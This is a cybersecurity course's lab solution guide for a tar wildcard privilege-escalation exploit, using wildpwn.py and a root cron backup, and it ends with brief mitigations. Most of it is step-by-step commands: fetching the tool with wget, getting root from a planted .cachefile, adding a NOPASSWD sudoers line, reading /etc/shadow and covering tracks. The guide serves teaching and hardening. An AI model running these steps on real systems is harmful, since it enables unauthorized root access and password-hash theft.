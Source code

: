 ## Solution Guide: Exploiting `tar`

The goal of this activity is to act out the `tar` exploitation and research how to harden systems against this exploit. 

Completing this activity required the following steps: 

- Downloading `wildpwn.py` using a non-`sudo` user account. 
- Running the script to generate `.webscript`.
- Verifying that your user can gain `sudo` access.
- Researching mitigation techniques. 


First, log in as `jane`, and verify that you have no `sudo` rights.
  
   - Run `su jane`. Use `password` as the password.

- Download the [wildpwn.py](https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py) attack tool to your `~/Documents` directory. Do this from the command line, _not_ the browser.
   
   `cd ~/Documents`

   `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`


Plant these malicious files in a directory that an administrator is likely to backup. Admins often use a tool called `cron` to take backups automatically.

- `cron` is a service that typically runs with root privileges when used to create automated backups. This means that automated backups that use `tar` with wildcards are vulnerable to the exploit, as you saw earlier in the lecture. 

- Jane's `~/Documents` directory is likely to be included in backups, so you are ready to trigger the automated backup to test the exploit.

- Wait for two minutes. The `cron` job should run with root privileges. It is a common pattern for hackers to plant malware and wait for `cron` to run a command as `root`.

Use `wildpwn.py` to generate the malicious files. Move them to a directory that you expect to be frequently backed up.
  - Run  `python wildpwn.py tar .`
  
    - In this case, we simply leave the files in the `~/Documents/ExploitTar` directory, where they are likely to be backed up.

- The script will be activated in two minutes by `cron`, which is making backups. After waiting two minutes, verify that the backup created a `.cache` directory with a new `.cachefile` that you can use to escalate privileges. 

   - Run:  
      `cd ~/Documents`  
      `   ls -al`  
      `cd .cache`  
      `  ls -al`  
      `    ... .cachefile`

- Run the malware to escalate to `root`. Then, add `jane` to `/etc/sudoers` so that she can run any command with superuser privileges:
  
   - Run:   
         `./.cachefile`  
         `visudo`  
         `# Add the line:`  
         `# jane ALL=(ALL) NOPASSWD:ALL`


- Log back in as `jane` and verify that you can run commands with `sudo`. Then, remove the `.cachefile` and `wildpwn.py` script to cover your tracks.
  
  - Run:  
   `su jane`  
   `sudo cat /etc/shadow`

- Ways to prevent this attack in the future include:

      - Preventing users from downloading files from untrusted sources. This will involve enforcing stricter **permissions** on where users can save files.

      - Using a tool like `tripwire` to watch the file system for suspicious changes. This will alert you whenever a user downloaded files like `wildpwn.py`, or when backups create files like `.cache/.cachefile`.
      
      - Use a tool like `lynis` to scan the system for security vulnerabilities on a regular basis. This will make it more likely that you will identify malicious files before they have a chance to damage the system.

--- 
#### Copyright
© 2020 Trilogy Education Services, a 2U, Inc. brand.  All Rights Reserved.